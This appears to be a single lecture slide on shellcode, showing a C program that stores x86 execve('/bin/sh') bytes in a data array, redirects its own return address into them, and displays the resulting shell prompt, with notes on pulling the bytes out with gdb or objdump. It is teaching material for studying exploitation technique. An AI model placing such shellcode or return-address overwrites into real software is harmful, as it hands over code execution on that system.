

# dataseg.c: put shellcode into .data
(gdb) x/80xb the inline code to get the bytes for sc[] here, or
$ objdump –d | grep –A40 main.: | less

char sc[] =
    "\xeb\x1c\x5b\xb8\x00\x00\x00\x00\x88\x43\x07\x89\x5b\x08\x89\x43"
    "\x0c\xb8\x0b\x00\x00\x00\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xdf"
    "\xff\xff\xff/bin/sh/xAAAABBBB";

main() {
    int *ret;

    ret = (int *)&ret+2;
    *ret = (int)sc;
}
$ ./dataseg
sh4.2 $

disassemble all sections, even data
we have to include the xAAAABBBB this time; the memory
wouldn’t be allocated otherwise, and this causes the code
to fail